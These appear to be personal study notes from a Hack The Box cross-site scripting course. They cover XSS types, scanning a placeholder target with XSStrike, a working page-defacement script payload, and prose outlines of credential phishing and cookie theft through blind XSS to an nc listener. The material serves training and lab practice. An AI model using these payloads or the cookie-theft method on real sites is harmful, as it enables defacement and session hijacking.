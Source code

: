 # Cross-Site Scripting

Stored - The pinical it is stored on pag and will be run everytime a user visits

Reflected - processed by server and returned to user not stored

Dom based - Only processed on client side

## Discovery

```shell-session
git clone https://github.com/s0md3v/XSStrike.git
cd XSStrike
pip install -r requirements.txt
```

```shell-session
python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test" 
```

&#x20;[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md) [PayloadBox](https://github.com/payloadbox/xss-payload-list) good resources for payloads

## Defacing

This payload can be used to deface a page

```html
<script>document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white">Cyber Security Training</h1><p style="color: white">by <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy"> </p></center>'</script>
```

## Phishing

Using the defacing method we can craft a malicous page that sends credentials back to us

## Session Hijacking

This was actually pretty fun and the assessment involved a blind XSS injection. Once you found a payload that worked you had to include a script from your machine that sends a cookie to a listening nc port. Cool!

## Skills assesment

This was quite fun and used all parts of the module. You cant use nc for the session because it closes imediatly. php server is better for this,
